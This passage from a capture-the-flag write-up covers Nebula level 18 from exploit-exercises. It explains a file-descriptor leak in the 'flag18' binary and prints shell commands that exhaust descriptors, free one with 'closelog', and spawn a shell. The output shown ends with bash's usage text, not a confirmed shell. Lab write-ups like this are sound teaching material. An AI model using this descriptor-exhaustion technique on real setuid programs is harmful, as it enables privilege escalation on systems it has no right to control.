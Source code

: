 We see that there is a limit of 1024 file descriptors per process. Looking at
the disassembly of the `flag18` binary, we see that the `fclose(fp)` function
call from the source isn't actually present in the binary. This means that
the login function consumes one file descriptor without freeing it every time
it is called.

![Hopper image](../images/nebula-18-hopper.png)

We now have our attack plan. We will call `login` 1021 times (3 file
descriptors are required for stdin, stdout and stderr) giving us a process that
has consumed 1024 file descriptors, call `login` again which will succeed
before calling `shell` to `execve` our shell.

```shell
level18@nebula:~$ python -c "print 'login asdf\n' * 1022" > commands
level18@nebula:~$ python -c "print 'shell\n'" >> commands
level18@nebula:~$ cat commands | /home/flag18/flag18
/home/flag18/flag18: error while loading shared libraries: libncurses.so.5: cannot open shared object file: Error 24
```

This fails because running `execve` itself requires a file descriptor. This
means that we need to free up a file descriptor after calling `login` and
before calling `shell`. Conveniently, the `closelog` command does just that.

Our modified attack plan will be to call `login` 1020 times (3 file descriptors
for stdin, stdout and stderr plus 1 file descriptor for the debug file) giving
us a process that has consumed 1024 file descriptors. We will call `login`
again which will succeed, then we will call `closelog` that closes the debug
file, freeing up a file descriptor. Finally, we will call `execve` to obtain
our shell.

```shell
level18@nebula:~$ python -c "print 'login asdf\n' * 1021" > commands
level18@nebula:~$ python -c "print 'closelog\n'" >> commands
level18@nebula:~$ python -c "print 'shell\n'" >> commands
level18@nebula:~$ cat commands | /home/flag18/flag18 -d /dev/tty
Starting up. Verbose level = 0
logged in successfully (without password file)
/home/flag18/flag18: -d: invalid option
Usage:  /home/flag18/flag18 [GNU long option] [option] ...
        /home/flag18/flag18 [GNU long option] [option] script-file ...
GNU long options:
        --debug
        --debugger
        --dump-po-strings
        --dump-strings
        --help
        --init-file
        --login
        --noediting
        --noprofile
        --norc
        --posix
        --protected
        --rcfile
        --restricted
        --verbose
        --version
Shell options:
        -irsD or -c command or -O shopt_option          (invocation only)
        -abefhkmnptuvxBCHP or -o option
```


[exploit-exercises]: https://exploit-exercises.com
[gnu-coreutils-env]: https://www.gnu.org/software/coreutils/manual/html_node/env-invocation.html
[pcre-modifier]: http://php.net/manual/en/reference.pcre.pattern.modifiers.php
[nebula-11-gist]: https://gist.github.com/graugans/88e6f54c862faec8b3d4bf5789ef0dd9#file-nebula-level11-md